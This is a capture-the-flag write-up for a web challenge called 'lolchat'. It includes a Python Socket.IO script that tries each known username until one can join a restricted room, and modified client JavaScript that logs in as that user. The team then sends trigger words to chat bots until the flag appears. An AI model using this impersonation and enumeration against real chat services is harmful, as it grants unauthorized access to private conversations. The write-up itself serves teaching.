 # lolchat

lol

- This one was a bit tricky and we didn't find much about it. We enter the site and we are welcome by this interface:

![welcome](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/lolchat/welcome.png)

- Nothing much, but we can work with this.
- First we just checked the website to see what has to offer. We found a ``script.js`` containing socket connection.

![script](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/lolchat/scriptjs.png)

- We played around with it, like changing rooms, usernames, etc.

```js
function connect() {
    const chosenName = names[Math.floor(Math.random() * (names.length - 1))];
    document.getElementById("username").innerHTML = `You are: ${chosenName}`;
    const socket = io({ auth: { name: chosenName } });

    socket.on("connect", () => {
        console.log("Connected to server");

        socket.emit("joinRoom", "general");
    });

    socket.on("message", (userId, msg) => {
        addMessage(userId, msg);
    });

    socket.on("activeUsers", (count) => {
        console.log(`Active users: ${count}`);
        document.getElementById(
            "activeUsers"
        ).innerHTML = `Active users: ${count}`;
    });

    socket.on("disconnect", () => {
        console.log("Disconnected from server");
    });

    window.socket = socket;
}
// To make the chatbox work, without modifying this u will only type in "hall" room :D
function send(event) {
    event.preventDefault();
    const input = document.getElementById("messageInput");
    const message = input.value;
    if (message && window.socket) {
        window.socket.emit("sendMessage", { room: "general", message });
        addMessage("you", message);
        input.value = "";
    }
}
```

- Until we changed the room to ``party``. After trying to join party we were greeted with a message from system telling us that ``system: sorry john, you are not allowed in the room party``.

![notallowed](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/lolchat/not_allowed.png)
  
- In that case we made a python script with socketio that tries every name from the list we gathered from ``script.js`` to see which names are allowed to enter ``party room``.

```python
import socketio
import time

url = 'http://ctf.ac.upt.ro:9583'

usernames = [
    "john", "charlie", "anne", "dave", "frank", "grace", "bob"
]

room = "party"

clients = []

def CreateClient(username):
    sio = socketio.Client()

    @sio.event
    def connect():
        print(f'Connected as: {username}')
        sio.emit('joinRoom', room)

    @sio.event
    def message(userId, msg):
        if "sorry" in msg:
            sio.disconnect()
            return

    @sio.event
    def disconnect():
        print(f'Failed to connect as: {username} to room PARTI PARTI PARTI!')

    try:
        sio.connect(url, auth={'name': username})
    except Exception as e:
        print(e)

    return sio

for uname in usernames:
    client = CreateClient(uname)
    clients.append(client)

try:
    for client in clients:
        client.wait()
        
except KeyboardInterrupt:
    for client in clients:
        client.disconnect()

```

![partiparti](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/lolchat/parti%20parti%20check.png)

- Jackpot! We found user ``bob`` being able to join party room!!!


- Now the next step is to connect to user ``bob`` and join room ``party``.

```js
function connect() {
    const chosenName = "bob";
    document.getElementById("username").innerHTML = `You are: ${chosenName}`;
    const socket = io({ auth: { name: chosenName } });

    socket.on("connect", () => {
        console.log("Connected to server");

        socket.emit("joinRoom", "party");
    });

    socket.on("message", (userId, msg) => {
        addMessage(userId, msg);
    });

    socket.on("activeUsers", (count) => {
        console.log(`Active users: ${count}`);
        document.getElementById(
            "activeUsers"
        ).innerHTML = `Active users: ${count}`;
    });

    socket.on("disconnect", () => {
        console.log("Disconnected from server");
    });

    window.socket = socket;
}

function send(event) {
    event.preventDefault();
    const input = document.getElementById("messageInput");
    const message = input.value;
    if (message && window.socket) {
        window.socket.emit("sendMessage", { room: "party", message });
        addMessage("you", message);
        input.value = "";
    }
}
```

![connectedasbob](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/lolchat/connect_bob.png)

- Now we are connected as ``bob``, but nothing is happening.
- Ok, now we need to remember that the challenge name is ``lolchat``, so has something to do with ``randomchat``. Let's see what happens if we type ``hello``.

![hello](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/lolchat/hello.png)

- Oh, we got a response from 2 users ``josh`` and ``alice``. We are on the right track, now we know the users are activating after a certain word. Let's try what are we looking for which is going to be ``flag``.

![flag](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/lolchat/flagf.png)

- Hmm... Let's try the word ``game``, what is going to happen?

![game](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/lolchat/game.png)

- Wow! Let's try ``blue``.

![final](https://github.com/TedyonGit/AC-UPT-ControluDeCalitate-WriteUps/blob/main/lolchat/finish.png)

- GG! We found the flag ``ctf{00d1594338bdd8dd9f01a0e6e999217732b64d95cccbe54ae97c67e6b854845a}``

# Note:

- If you guess wrong the color the user ``josh`` is going to leave the chat without any reply and you need to type ``game`` again to open the "payload".
- I think there are many words you can use to trigger the users, but we didn't find much only like: ``hat``, ``gaming``
- We had some encounters with users talking to each other and not responding to the inputs, but with a restart worked fine after.
